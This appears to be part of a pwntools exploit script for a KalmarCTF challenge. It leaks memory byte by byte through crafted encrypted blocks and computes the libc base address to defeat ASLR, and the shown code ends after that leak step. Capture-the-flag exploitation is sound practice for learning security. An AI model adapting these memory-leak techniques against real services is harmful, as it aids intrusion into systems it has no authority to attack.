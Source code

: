 ```py


def unscramble(upper, lower):
    if upper >= lower:
        return (upper - lower) << 4 | lower & 0xF
    else:
        return (0x10 + upper - lower) << 4 | lower & 0xF


def reconstruct_data(read_data: bytes, key: str):
    shifts = [0] * 15
    dec = decrypt_block(to_nibbles(bytes.fromhex(key)), shifts, to_nibbles(read_data))

    fixed_data = bytes(
        [unscramble(dec[-2], dec[-1])]
    )

    return fixed_data


def read_byte(conn: pwn.tube, offset: int):
    conn.recvuntil(b"Number of blocks: ")
    conn.sendline(b"1")

    block = build_payload((offset).to_bytes(1) + b"\x00"*7, SHIFTS_OFFSET)
    block.key = "0"*16
    send_block(conn, block)

    conn.recvuntil(b"Block 0: ")
    read_leak = conn.recvline()[:-1].decode()
    # print("leak:", read_leak)
    return reconstruct_data(bytes.fromhex(read_leak), block.key)[0]


def read_bytes(conn: pwn.tube, offsets: list[int]):
    data = []
    for off in offsets:
        data.append(read_byte(conn, off))

    return bytes(data)[::-1]


def create_conn():
    if pwn.args.GDB:
        conn = pwn.gdb.debug(PATH, aslr=True)
    elif pwn.args.REMOTE:
        conn = pwn.remote("chal-kalmarc.tf", 8)
    elif pwn.args.DOCKER:
        conn = pwn.remote("localhost", 1337)
    else:
        conn = pwn.process(PATH)
    return conn


def main():
    with create_conn() as conn:
        OFFSET = 0x80

        print(read_byte(conn, LIBC_LEAK+1))
        leak = read_bytes(conn, [(LIBC_LEAK + o) for o in range(8)])
        print(leak.hex())
        libc_base = int.from_bytes(leak, 'big') - LEAK_OFFSET
        print(hex(libc_base))
```